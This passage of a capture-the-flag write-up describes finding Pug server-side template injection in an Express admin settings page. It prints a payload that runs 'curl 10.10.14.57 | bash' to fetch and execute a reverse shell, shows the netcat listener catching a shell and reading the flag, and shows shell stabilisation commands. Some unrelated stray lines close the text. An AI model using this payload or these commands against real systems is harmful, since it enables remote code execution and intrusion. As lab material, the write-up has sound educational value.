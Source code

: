 ![A screenshot that shows that we got a valid token](/static/images/stack-the-flags-2022/token-got.png)

Now we can use the new token to access the dashboard

![A screenshot of the admin dashboard](/static/images/stack-the-flags-2022/dashboard-admin.png)

In the `/admin/setting` endpoint. We have a way to render a template!

![A screenshot of the admin templates section](/static/images/stack-the-flags-2022/admin-ssti-template.png)

So the first thing that comes in mind now is we find an SSTI.

Knowing from the `Response Headers` that we’re dealing with an Express nodejs server.

I just tried a bunch of payloads `{{7*7}} ${7*7} #{7*7}` And the `#{7*7}` works.

![A screenshot that shows the execution of pug ssti](/static/images/stack-the-flags-2022/pugssti-template.png)

This means that we’re dealing with a `pug ssti`.  I’ll be using the following payload, Where I am hosting a bash reverse shell in my local webserver and piping into bash.

```js
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec(’curl 10.10.14.57 | bash’)}()}
```

And I get a shell as john and grab the flag

```bash
hcue@pjsk:/tmp » rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.57] from (UNKNOWN) [10.129.228.37] 44176
can’t access tty; job control turned off
$ id
$ cd ~
$ cat user.txt
STF22{g410f27d35f21325f47d83c375dedf32}
```

### Privilege Escalation

First, I will stabilize my shell

```bash
$ python3 -c "import pty;pty.spawn(’/bin/bash’)"
john@bautycare:~$
[1]  + 583791 suspended  rlwrap nc -lvnp 443
hcue@pjsk:/tmp » stty raw -echo;fg                                                                           148 ↵
[1]  + 583791 continued  rlwrap nc -lvnp 443
john@beautycare:~$
john@beautycare:~$ export TERM=xterm
export TERM=xterm
john@beautycare:~$
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname